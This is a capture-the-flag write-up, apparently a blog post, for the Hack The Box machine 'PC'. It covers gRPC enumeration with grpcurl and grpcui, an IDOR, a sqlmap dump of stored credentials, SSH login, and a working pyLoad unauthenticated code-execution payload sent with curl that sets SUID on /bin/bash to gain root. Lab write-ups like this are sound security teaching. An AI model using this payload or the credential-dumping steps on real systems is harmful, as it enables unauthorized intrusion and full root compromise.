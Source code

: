 ```yaml
---
title: PC
date: 2023-08-22 15:53:16 +0800
categories: [Hackthebox, PC]
tags: [htb, ctf, pentesting, web, unix, prev-esc]
---
```



<img src="/assets/global/banner.png" alt="banner image">


### Description:

This machine is so intresting because you have to deal with grpc protbuf to get the application working so then you can feed your burp history to find an argument that is exploitable

### Difficulty:

`easy`


## Enumeration

**nmap** scan 
```shell
PORT      STATE    SERVICE VERSION
22/tcp    open ssh
50051/tcp open  unknown # After searching found that this port is for gRPC protbuf
```
### enum gRPC using **grpcurl**

```shell
└─$ grpcurl -plaintext pc.htb:50051 list
SimpleApp
grpc.reflection.v1alpha.ServerReflection
```
#### now it's time to connect to this api using **grpcui** this tool will simulate the front end for the api so that we can intract with the application

```shell
└─$ grpcui -plaintext pc.htb:50051                
gRPC Web UI available at http://127.0.0.1:42419/         
```
#### and now we have this great ui to intract with

<img src="/assets/pc/1.png" alt="example image">

## Foothold

### we have three indpoints *regester*, *login* and *getInfo*

#### lets's create a new account using regester endpoint

<img src="/assets/pc/2.png" alt="example image">

#### now that we created our account with username called *haitkadir* let's login and se what we get

<img src="/assets/pc/3.jpg" alt="example image">

#### once we loged in we got two things *id* and *token*, now let's navigate to *getInfo* endpoint and pass the *id* and *token*

#### request
<img src="/assets/pc/4.jpg" alt="example image">

#### response

<img src="/assets/pc/5.png" alt="example image">

#### here we got this message from which is the user info :*Will update soon*

#### now let's update the *id* to see if it's vulnerable to an *IDOR* 

#### request
<img src="/assets/pc/6.png" alt="example image">

#### response
<img src="/assets/pc/7.png" alt="example image">

#### and yeah it's vulnerable and we got some info from admin account but only what we can get with this one is is this message.

#### but now we know one thing that could be usefull the application uses the *id* variable,

#### so let's intercept the request using **burp** and copy it to a file

<img src="/assets/pc/8.png" alt="example image">

### now I have the request saved in a file let's run the **sqlmap** against it

```shell
└─$ sqlmap -r request.txt ip id --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

.
.

[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

[12:12:51] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/home/haitkadir/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/messages.csv'
[12:12:51] [INFO] fetching columns for table 'accounts' 
[12:12:51] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| <password here>        | sau      |
+------------------------+----------+

```


## Lateral Movement

### now that we have cridintials for sau user let's ssh to the box

```shell
└─$ ssh sau@pc.htb                    
sau@pc.htb's password: 
Last login: Wed Aug 23 13:33:20 2023 from 10.10.14.212
sau@pc:~$ 
```

## Privilege Escalation

### enum

```shell
sau@pc:~$ ps -ef | grep root
[..]
[..]
root        1066       1  0 04:17 ?        00:00:27 /usr/bin/python3 /usr/local/bin/pyload
```
#### checking which port is binded to this service 

```shell
sau@pc:~$ ss -lntp
State        Recv-Q       Send-Q              Local Address:Port                Peer Address:Port       Process       
[..]
LISTEN       0            128                       0.0.0.0:9666                     0.0.0.
[..]
```
#### as we can see here it's running on port 9666 


#### in this procces we can see that the root running the *pyload* which is a download manager,

#### and it's vulnerable to unauthinticate remote code execution

### Exploit

```shell
sau@pc:~$ cat exp.sh 
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2bs%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:9666/flash/addcrypted2'

# this \"chmod%20u%2bs%20/bin/bash\"  is equal to this ==> "chmod u+s /bin/bash"
```


```shell
sau@pc:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

sau@pc:~$ ./exp.sh 
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Wed, 23 Aug 2023 17:03:33 GMT
Server: Cheroot/8.6.0
 
sau@pc:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
#### now that we set the *SUID* bit for **bash** let's get root

```shell
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
sau@pc:~$ /bin/bash -p
bash-5.0# id
uid=1001(sau) gid=1001(sau) euid=0(root) groups=1001(sau)
bash-5.0# 
```

# Thanks for reading

